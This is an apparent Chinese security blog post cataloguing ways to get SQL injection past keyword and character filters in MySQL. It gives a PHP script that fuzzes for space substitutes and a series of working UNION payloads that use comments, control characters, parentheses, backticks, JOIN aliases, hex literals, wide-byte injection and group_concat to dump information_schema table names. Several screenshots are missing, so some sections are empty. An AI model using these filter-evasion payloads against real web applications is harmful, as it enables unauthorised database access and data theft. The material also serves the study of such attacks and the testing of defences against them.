








# SQL注入绕过过滤

[2018-11-25]()

## [](#前言 "前言")前言

SQL注入经常会遇到过滤的问题，某些关键字被过滤导致注入无法进行下去，这里就总结一下常见的绕过过滤的方法。（本文参考Freebuf文章）

过滤空格应该是最常见的防御措施了，替换空格的方法有很多：

#### [](#1-替换空格 "1. /**/替换空格")1\. /\*\*/替换空格



### [](#2-0x0a字符替换空格 "2. 0x0a字符替换空格")2\. 0x0a字符替换空格

注意:按住alt键+小键盘输入10再松开alt键即可在控制台中输入ascii字符0x0a  


### [](#3-0x0b "3. 0x0b")3\. 0x0b

注意:按住alt键+小键盘输入11再松开alt键即可在控制台中输入ascii字符0x0b



### [](#4-0x0c "4. 0x0c")4\. 0x0c



### [](#5-0x0d "5. 0x0d")5\. 0x0d

使用0x0d号字符替换空格，注意:按住alt键+小键盘输入13再松开alt键即可在控制台中输入ascii字符0x0d,但因为在控制台中一旦输入0x0d，就会执行指令，所以这里只在union前输入了一次。



* * *

做到这里会不会想到其他可以替换空格的字符呢，fuzz测试一下：

```
<?php
$mysqli = new mysqli('localhost', 'root', '', 'mysql');
if ($mysqli->connect_errno) {
    die("could not connect to the database:\n" . $mysqli->connect_error);
}
$i=0;
while($i++<256){
    $sql = "select host,user from user where user='a'".chr($i)."union".chr($i)."select 1,2;";
    $res = $mysqli->query($sql);
    if ($res) {
        echo "Ok!:$i:".chr($i)."<br>";
    }    
}
$mysqli->close();
?>
```

将代码放入网页中访问，显示：  


通过测试可以发现，除了刚才用的还有9号\(tab\)和160号字符也可以替换空格。  
32号本来就是空格，35是注释符

* * *

然后如果这些都被过滤了，有没有别的办法

### [](#1-利用括号、反引号 "1. 利用括号、反引号")1\. 利用括号、反引号

  
select host,user from user where user=’a’union\(select`table_name`,`table_type`from`information_schema`.`tables`\);  
利用括号、反引号来隔离sql关键词与库名表名列名，完成了注入。

### [](#2-join语句和子查询的别名来替换逗号 "2. join语句和子查询的别名来替换逗号")2\. join语句和子查询的别名来替换逗号

  
在这个语句中，我们利用join与别名，成功的避免使用逗号实现了注入：

```
select host,user from user where user='a'union(select*from((select`table_name`from`information_schema`.`tables`where`table_schema`='mysql')`a`join(select`table_type`from`information_schema`.`tables`where`table_schema`='mysql')b));
```

像这种嵌套语句，好像可以多次嵌套，比如：

```
select*from(select'1')a2
select*from(select*from(select'1')a2)a3
select*from(select*from(select*from(select'1')a2)a3)a4
select*from(select*from(select*from(select*from(select'1')a2)a3)a4)a5
```

### [](#3-绕过反引号 "3. 绕过反引号")3\. 绕过反引号

在库名、表名、列名不带空格、_、\{、\}等特殊符号的情况下，语句中的反引号也可以用括号代替  
select host,user from user where user=’a’union\(select_from\(\(\(select\(table\_name\)from\(information\_schema.tables\)where\(table\_schema\)=’mysql’\)a\)join\(select\(table\_type\)from\(information\_schema.tables\)where\(table\_schema\)=’mysql’\)b\)\);

### [](#4-过滤单引号 "4. 过滤单引号")4\. 过滤单引号

**如果存在宽字节注入**，那么即使过滤了单引号，我们也可以注入，这时语句变成这样：  
select host,user from user where user=’a\?’union\(select\*from\(\(\(select\(table\_name\)from\(information\_schema.tables\)where\(table\_schema\)=0x6D7973716C\)a\)join\(select\(table\_type\)from\(information\_schema.tables\)where\(table\_schema\)=0x6D7973716C\)b\)\);

### [](#5-其他技巧 "5.其他技巧")5.其他技巧

某些web应用只取查询结果的第一行，这时可以使用group\_concat\(\)来获取完整数据,例如：

```
select host,user from user where user='a?'union(select*from(((select(group_concat(table_name))from(information_schema.tables)where(table_schema)=0x6D7973716C)a)join(select(table_type)from(information_schema.tables)where(table_schema)=0x6D7973716C)b));
```

也可以多加几个条件判断来逐行获取所要的数据：

```
select host,user from user where user='a?'union(select*from(((select(table_name)from(information_schema.tables)where(table_schema)=(0x6D7973716C)and(table_name)!=(0x6462)and(table_name)!=(0x67687478).......)a)join(select(0x77)from(information_schema.tables)where(table_schema)=0x6D7973716C)b));
```
